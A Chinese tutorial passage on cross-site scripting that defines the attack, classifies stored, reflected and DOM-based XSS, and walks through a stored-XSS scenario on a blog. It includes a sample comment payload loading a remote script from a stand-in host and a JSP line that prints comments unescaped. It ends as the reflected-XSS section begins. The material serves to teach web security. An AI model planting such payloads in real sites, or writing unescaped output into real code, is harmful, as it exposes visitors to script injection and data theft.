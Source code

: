 

# 跨站脚本攻击(XSS - Cross Site Scripting)


* Acunetix_Web_Vulnerability_Scanner_V9
* arachni-0.4.2-0.4
* Pangolin_jb51.rar

## 原理
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

更多攻击方式请参考：《[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)》

## 分类

|风险代码存在于？|数据库中|HTTP响应中|浏览器构建的DOM中|
|---|---|---|---|
|Stored XSS Attacks     |Yes|Yes|Yes|
|Reflected XSS Attacks  |   |Yes|Yes|
|DOM Based XSS          |   |   |Yes|



### Stored XSS Attacks
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：

1. 恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。
1. 恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：

    ```html
    <script src="http://a.com/xss.js"></script>
    楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
    更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
    实在是我三生之幸啊。......
    ```

1. 博客系统B使用以下方式显示回帖（JSP语法）：

    ```jsp
    回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
    ```

1. 后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。


### Reflected XSS Attacks
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。
